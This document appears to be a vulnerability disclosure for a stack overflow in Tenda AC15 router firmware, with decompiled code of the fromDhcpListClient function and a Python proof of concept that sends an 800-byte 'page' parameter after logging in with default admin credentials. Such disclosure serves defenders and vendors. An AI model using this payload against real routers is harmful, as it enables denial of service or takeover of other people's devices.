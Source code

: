 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)

### * Vulnerability Detail

In function fromDhcpListClient, the content obtained by the program from the parameter "page" is passed to local_1c, 
and then the local_1c is directly copied into the acStack288 stack through the sprintf function. 
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void fromDhcpListClient(undefined4 param_1)

{
  size_t sVar1;
  int iVar2;
  undefined4 local_370;
  undefined4 local_36c;
  undefined4 local_368;
  undefined4 local_364;
  undefined local_360;
  char acStack608 [63];
  char acStack545 [257];
  char acStack288 [256];
  char *local_20;
  undefined4 local_1c;
  char *local_18;
  int local_14;
  
  local_14 = 0;
  memset(acStack608,0,0x40);
  local_18 = (char *)FUN_0002ba8c(param_1,"LISTLEN",&DAT_000ee368);
  local_1c = FUN_0002ba8c(param_1,&DAT_000ee36c,&DAT_000ee374);
  local_360 = 0;
  local_14 = 1;
  while (iVar2 = atoi(local_18), local_14 <= iVar2) {
    local_370 = 0;
    local_36c = 0;
    local_368 = 0;
    local_364 = 0;
    sprintf((char *)&local_370,"%s%d",&DAT_000ee380,local_14);
    local_20 = (char *)FUN_0002ba8c(param_1,&local_370,&DAT_000ee388);
    if ((local_20 == (char *)0x0) || (*local_20 == '\0')) break;
    strcpy(acStack545 + 1,local_20 + 1);
    sVar1 = strlen(acStack545 + 1);
    acStack545[sVar1] = '\0';
    sprintf(acStack608,"dhcps.Staticip%d",local_14);
    SetValue(acStack608,acStack545 + 1);
    local_14 = local_14 + 1;
  }
  SetValue("dhcps.Staticnum",local_18);
  sprintf(acStack288,"/network/lan_dhcp_static.asp?page=%s",local_1c);  //here is overflow
  iVar2 = CommitCfm();
  if (iVar2 != 0) {
    PostMsgToNetctrl(3);
  }
  FUN_0002be4c(param_1,acStack288);
  return;
}
```

### * POC

```python
import requests


cmd  = b'LISTLEN=1&page=' + b'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/DhcpListClient/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```
